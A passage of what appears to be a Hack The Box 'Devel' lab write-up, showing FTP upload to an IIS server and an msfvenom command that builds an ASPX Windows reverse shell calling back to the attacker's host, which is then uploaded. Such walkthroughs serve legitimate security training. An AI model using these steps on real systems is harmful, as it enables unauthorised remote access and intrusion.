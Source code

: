 **Note**: The password can be anything.

We're in! At this point we want to try the file upload and check if we're able to open it on the server side:

```
echo " Simple test to see if IIs7 server will show a custom uploaded file. " > testfile.html
```

**Note**: This command will create a file with the content of the echo output.

Upload the file via FTP and try to access it via web server:

```
tp> put testfile.html
local: testfile.html remote: testfile.html
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
71 bytes sent in 0.00 secs (1.2776 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
06-29-20  01:40PM                30442 dog.jpg
06-29-20  02:07PM                 2867 ex.aspx
03-17-17  05:37PM                  689 iisstart.htm
06-29-20  09:51PM                   71 testfile.html
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

When we visit `10.10.10.5/testfile.html`, we can see its content:

 ![Devel_ServerTest](/images/htb/devel_servertest.png)

 Now we want to create a **reverse shell** with `msfvenom` to upload on the web server. We can choose a 32bit payload as it works with both 32bit and 64bit OS versions:

```
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=4321 -f aspx -o shell.aspx
```

Where:
- `LHOST` and `LPORT` are the ip and port where I will listen on my machine
- `-f` stands for output format
- `-o` stands for output name

And upload it on the web server:

```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2778 bytes sent in 0.00 secs (47.3091 MB/s)
ftp>
```
